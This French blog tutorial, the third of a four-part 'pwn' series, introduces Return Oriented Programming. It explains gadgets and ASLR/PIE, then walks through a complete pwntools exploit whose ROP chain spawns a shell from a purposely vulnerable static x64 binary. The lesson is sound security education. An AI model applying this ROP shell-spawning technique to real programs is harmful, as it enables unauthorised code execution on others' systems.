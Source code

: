 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
description: "Introcution au Return Oriented Programming (ROP) et exemple pratique."
---
```


 > Petit ajout après la publication des articles :

 > Ces quatres articles ont donné lieu à une conférence d'introduction au pwn à la HitchHack 2018. Elle résume les 3 premiers articles mais rentre moins dans le détail. Si ce format vous convient mieux, les slides sont téléchargables [ici](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) et la vidéo (francais uniquement) ici :

[![1, 2, 3, PWNED !](http://img.youtube.com/vi/hmt8M9YLwTg/0.jpg)](https://www.youtube.com/watch?v=hmt8M9YLwTg)

## Route du pwn, troisième  escale, bienvenue à bord !

Hier, le simple buffer overflow et le ret2libc, aujourd'hui, le ROP, ou Return Oriented Programming, et demain... Demain la conquête du monde !!!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

Je vous ai laissé hier sur le ret2libc, qui, vu de loin, consiste à piocher dans la libc les fonctions qui nous intéressent. Sauf que cette attaque n'est pas possible dans le cas où le programme est compilé en statique, et difficilement faisable si l'ASLR est activé. Nous allons aujourd'hui découvrir le ROP qui nous permet de contourner ces protections.

Ca ressemble de plus en plus au jeu du chat et de la souris, so...\
Follow the leader cat !

## Précisions ASLR et PIC :
Avant de commencer, un petit retour sur ces protections parfois floues.

La configuration de l'ASLR est présente dans `/proc/sys/kernel/randomize_va_space`. Elle peut être à 0=désactivée, 1=activée (stack et heap), 2=activée (1 + data). La valeur 2 étant la nouvelle norme en cours d'adoption par les différents systèmes, déjà effective pour la plupart.

L'ASLR laisse donc toute une surface d'attaque non randomisée. Arriva donc ce qu'il devait arriver : des attaques utilisant les sections .data, .got, .plt, ...

Plus d'informations sur les différentes sections et la structure d'un ELF ici : [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

L'ASLR ne suffisant pas, de nouvelles protections ont été mises en place : PIC / PIE (Position Indépendant Code / Exécutable). N'ayant pas encore suffisamment étudié son fonctionnement, je ne vais pas la présenter en détail. Mais l'idée est simple... Et si on randomisait.... TOUT ?!?!?!

Le ROP fonctionne avec un ASLR partiel ou total, mais est contré par cette dernière mesure...

Suite à la prochaine contre contre-mesure ! è.é

## Présentation de la technique :
Return... Oriented... Programming...

Hum hum... Programmer... Avec des... Return ? °^°'

On va profiter du fait que la section .text du programme soit toujours au même emplacement pour piocher plein de petits bouts de code appelés gadgets, et les assembler pour faire notre exploit. L'exploit est donc une suite d'adresses pointant sur de l'assembleur, donc dans l'absolu, on peut tout faire avec. La limite ? Les gadgets qui sont à notre disposition dans le programme...

Même si on "peut tout faire", la stratégie la plus commune reste de faire comme dans l'article 1 où l'on génère un shellcode qui, via un syscall, permet d'exécuter un programme de notre choix.

Une chose importante à relever ici : On a besoin de gadgets. Les gadgets, c'est du code qui ne bouge pas. Les librairies, ca bouge. Donc un programme qui se base sur les librairies aura bien moins de surface d'attaque qu'un programme compilé en statique, qui, lui, contient tout le code qu'il utilise. De même, plus un programme va être volumineux et faire des actions complexes, plus vous avez de chance qu'il y ait des gadgets intéressants. Capich ? Noice !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Maintenant, abordons plus en détail les gadgets voulez-vous ?

Ils doivent tous répondre à un critère majeur : Se terminer par une instruction ret.

C'est ce critère qui rend l'attaque possible. En effet, lorsque l'on va contrôler le pointer d'instructions, on va faire en sorte que le programme exécute un premier gadget, que l'instruction ret finale indique la fin de l'exécution du premier gadget, et fasse revenir sur notre point de départ (la stack, qu'on vient d'overflow), mais une adresse plus loin. Cette adresse sera celle du second gadget et ainsi de suite.

Méfiance tout de même, si votre gadget se termine par un ret, mais contient des instructions qui modifient le flot d'exécution du programme, il risque de casser votre exploit. Donc pas de call, pas de leave, pas de "double ret", pas de bras, et surtout : pas de chocolat.

De nombreux outils permettent de lister les gadgets d'un exécutable, comme ROPgadget, Ropper, XRop, ...

## Elaboration de l'exploit :

Le binaire étudié est téléchargable [ici](/hacking/pwn_3of4_saperliropette/vuln) !

Avant toute chose, on regarde un peu à quoi on s'attaque : x64, compilé en statique, full ASLR. Ok !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

Vous avez l'habitude maintenant, le classique :

Comprendre le fonctionnement du programme, trouver le point de crash, puis l'offset !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Ici encore, on voit que l'on crash sur un ret... Contrôlons-nous RSP ? Oui ! Offset ? 264 !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Petit rappel, ret a pour effet de placer ce vers quoi pointe RSP (donc le dernier élément de la stack), dans RIP. Nous avons donc RIP sous notre contrôle. Donc... RIP !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

On utilise ensuite l'outil ropgadget qui nous offre une superbe ropchain faite à partir de notre programme vulnérable :

```shell
$ ropgadget --binary vuln --ropchain
```

L'output est long (verbeux), je n'en mets qu'une partie :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

On en fait donc un fichier python, notre exploit est donc :


```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

C'est pas beau toute cette automatisation ? Bon, ca ne marche pas à tous les coups, mais quand ca marche, le gain de temps est énorme, surtout en CTF... ;)

On va maintenant l'exploiter :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell ! :D

Petit détail qui tue, on voit ici que $0 (le nom du programme exécuté) vaut "bash", alors que dans notre ropchain, on avait /bin//sh (qui est compris comme /bin/sh). Mais c'est normal, car sur ma machine, /bin/sh est un lien symbolique qui pointe vers bash ! Mon vrai sh est /usr/bin/sh.

> Mais... Ca ne concorde pas avec les exploits précédents ?!

Wouah ! Un qui suit ! Oui, en effet...\
Plus d'informations sur cette étrangeté sur l'article de coupaing Pixis : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

C'est tout pour cette courte introduction au ROP, j'espère qu'elle vous a mindblown comme il se doit. Vous avez désormais quelques cartes en main : BOF / shellcode / ret2libc / ROP / cerveau / ...

C'est pourquoi notre prochaine rencontre se fera autour de l'analyse d'un programme un peu plus complet. Nous allons donc conclure cette série et...

Tout faire péterrrrr ! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

A très vite pour plus de pwn !
